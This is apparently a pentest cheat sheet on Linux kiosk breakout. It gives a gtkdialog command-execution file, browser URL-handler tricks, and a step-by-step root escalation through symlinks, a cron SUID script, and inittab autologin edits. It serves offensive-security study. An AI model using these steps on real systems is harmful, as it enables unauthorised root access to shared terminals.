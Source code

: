 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Kiosk_Breakout
---
```



<span style="font-size: 35px; color:red"><b>Linux Kiosk Breakout</b></span>
&nbsp;

```shell
sudo apt install tigervnc-viewer
```

Use <span style="color:red">xtigervncviewer</span> to connect.

If the kiosk presents a browser page, try:
- <span style="color:red">file:///var/www/localhost/</span>
- <span style="color:red">file:///var/www/localhost/index.html</span>
- <span style="color:red">chrome://</span>, <span style="color:red">ftp://</span>, <span style="color:red">mailto:</span>, <span style="color:red">smb://</span>, <span style="color:red">irc://</span>

Some of these might open a pop-up window that allows you to <span style="color:red">browse</span> and choose the program you want to use to open the link.
Interesting ones to exploit: <span style="color:red">gtkdialog</span>, <span style="color:red">firefox</span> (to open another firefox window with another profile, unlocking new functions on upper right corner)

If you can access the tools, search <span style="color:red">Web Developer </span> > <span style="color:red">Scratchpad</span>.

You can create the following script and save it as <span style="color:red">terminal.txt</span> to get Local Code Execution:
```html
<window>
  <vbox>
    <vbox scrollable="true" width="500" height="400">
        <edit>
          <variable>CMDOUTPUT</variable>
          <input file>/tmp/termout.txt</input>
        </edit>
    </vbox>
    <hbox>
      <text><label>Command:</label></text>
      <entry><variable>CMDTORUN</variable></entry>
      <button>
          <label>Run!</label>  
          <action>$CMDTORUN > /tmp/termout.txt</action>
          <action>refresh:CMDOUTPUT</action>  
      </button>
    </hbox>
  </vbox>
</window>
```

And call it from Firefox like <span style="color:red">irc://asd -f <path_to_terminal.txt></span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Privilege Escalation</b></span>
Check SUID: <span style="color:red">find / -perm -u=s -exec ls -al {} +</span>
Check running root processes: <span style="color:red">ps aux</span>
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Example of Privilege Excalation</b></span>
Openbox running as root process, if you run <span style="color:red">openbox --replace</span> it will reset everything and re-create the <span style="color:red">/home/guest/.mozilla/firefox/c3pp43bg.default/bookmarks.html</span> file. This allows you to write into privileged directories (<span style="color:red">ln -s /usr/bin /home/guest/.mozilla/firefox/c3pp43bg.default</span>).
You can create a script like the following (<span style="color:red">testscript.sh</span>):
```shell
echo "#!/bin/bash" > /etc/cron.hourly/bookmarks.html
echo "chown root:root /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
echo "chmod +s /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
```
This will set SUID bit on our local busybox file using chronojobs.
Once done, create a <span style="color:red">runterminal.sh</span>:
```shell
#!/bin/bash
/usr/bin/gtkdialog -f /home/guest/terminal.txt
```
and execute it like <span style="color:red">/home/guest/busybox sh /home/guest/runterminal.sh</span> to get root shell.

To get a better shell as root, run <span style="color:red">xdotool key Ctrl+Alt+F3</span> in our gtkdialog terminal. If nothing pops up, run:
```shell
cp /etc/X11/xorg.conf.d/10-xorg.conf /home/guest/xorg.txt
chmod 777 /home/guest/xorg.txt
```

To then comment out "DontVTSwitch" in <span style="color:red">/home/guest/xorg.txt</span>. Copy it back to its original location:
```shell
cp /home/guest/xorg.txt /etc/X11/xorg.conf.d/10-xorg.conf
```
and re-configure permissions:
```shell
chmod 644 /etc/X11/xorg.conf.d/10-xorg.conf
```
Run <span style="color:red">openbox --replace</span> again.

```shell
cp /etc/inittab /home/guest/inittab.txt
chmod 777 /home/guest/inittab.txt
```

Under the <span style="color:red">standard console login</span> section under the two commented lines, add a TTY like:
<span style="color:red">c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux</span>

```shell
cp /home/guest/inittab.txt /etc/inittab
chmod 600 /etc/inittab
/sbin/init q
```
Then create a scratchpad like:
```shell
#!/bin/bash
killall x11vnc 
x11vnc -rawfb vt3
```
make it executable and run it. You should be kicked out of the session. When you will reconnect, you should have root access.
